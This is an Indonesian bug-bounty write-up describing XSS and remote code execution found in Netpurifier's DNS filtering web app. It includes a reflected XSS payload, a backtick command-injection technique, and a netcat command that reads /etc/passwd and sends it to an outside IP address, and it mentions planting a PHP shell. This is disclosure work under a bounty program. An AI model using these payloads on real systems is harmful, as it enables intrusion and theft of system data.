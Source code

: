 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS on Netpurifier Private Bug Bounty"
date: 2019-02-14 07:00
categories: bugbounty
---
```

<div align="center" style="background-color:black">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/logo.png?raw=true">
</div>

### <b>Prolog</b>
[Netpurifier](https://netpurifier.id/) adalah merek lain dari DNS Bersih (DNSB) untuk pasar Internasional. Netpurifier menawarkan beberapa produk dan jasa, termasuk didalamnya DNS Filtering yang disediakan gratis untuk umum. Pada kesempatan kali ini saya akan share writeup private bug bounty untuk produk DNS Filter dari Cyber Army Indonesia. Diberikan 2 alamat yang masuk dalam scope, yaitu  kominfo.demo.netpurifier.id dan trust.netpurifier.id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap trust.netpurifier.id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/2019-02-14%2009_34_57-siti@master_%20~.png?raw=true">
</div>


Saat saya buka trust.netpurifier.id:8010, disana terdapat form login yang setelah saya tanyakan credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/XSS%20POST%202/2019-02-11%2022_50_24-trust-demo%20-%20DNSBSE.png?raw=true">
</div>


### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_33_38-siti@master_%20~_exploit.png?raw=true">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc 128.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_29_29-siti@master_%20~_exploit.png?raw=true">
</div>
Lalu saya buat shell php dan eksekusi ls -lah, dan selebihnya saya dapat explorasi server lebih dalam:

RIP SS :v 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/IMG_0167.JPG?raw=true">
</div>



- 11 February Send Report
- 12 February Valoidation
- 13 February disclose
- Rewarded


### <b>Reference:</b>
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f

### <b>Thanks:</b>
- Ngesec
- Surabaya Hacker Link
- You!